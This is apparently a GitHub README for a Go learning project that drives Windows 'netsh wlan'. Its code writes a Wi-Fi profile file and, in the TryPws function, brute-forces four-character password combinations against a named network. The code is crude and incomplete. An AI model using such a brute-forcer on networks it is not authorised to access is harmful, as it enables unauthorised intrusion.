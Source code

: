 
# Golang Netsh

## Motivation

This project was inspired by the netsh package as well as to learn Golang.

## Networking

The networking works by creating a profile xml file and attepting to connect
with the correct password.

### Initalize

This function is it Initalize the project for other operations by creating the
xml file based off of the provided file inside the project. The function copies
the file content and writes it to a new file.

```go
func initalize(name string) error {
	data, err := ioutil.ReadFile("template.xml")
	must(err)
	str := string(data)
	str = strings.Replace(str, "{SSID}", name, 2)

	f, err := os.Create("profile.xml")
	must(err)
	f.Write([]byte(str))
	f.Close()
	return nil
}
```

### Close

The close function simply cleans the workspace by deleting the initalized file

```go
func close() error {
	err := os.Remove("profile.xml")
	must(err)
	return err
}
```

### CreateFileProfile

The function createFileProfile works by creating a file profile filled with the
provided password.

```go
func createFileProfile(name, pass, prev string) {
	data, err := ioutil.ReadFile("profile.xml")
	must(err)
	str := string(data)
	str = strings.Replace(str, prev, pass, 1)
	os.WriteFile("profile.xml", []byte(str), 0644)
}
```

### Connect to network

The connectToNetwork function works to make a connection attept to the provided
network.

```go
func connectToNetwork(name string) bool {
	str := fmt.Sprintf("name=%s", name)
	out, err := exec.Command("netsh", "wlan", "connect", str).Output()
	must(err)
	fmt.Print(string(out))
	return false
}
```

### TryPws

Function that will try all possible passwords to a specified network and return
the found password.

```go
func tryPws(name string) (string, bool) {
	initalize(name)
	previous := "{password}"
	for i := 0; i < len(arr); i++ {
		for j := 0; j < len(arr); j++ {
			for ii := 0; ii < len(arr); ii++ {
				for jj := 0; jj < len(arr); jj++ {
					pw := arr[i] + arr[j] + arr[ii] + arr[jj]
					if tryConnection(name, pw, previous) {
						close()
						return pw, true
					}
					previous = pw
				}
			}
		}
	}
	close()
	return "", false
}
```
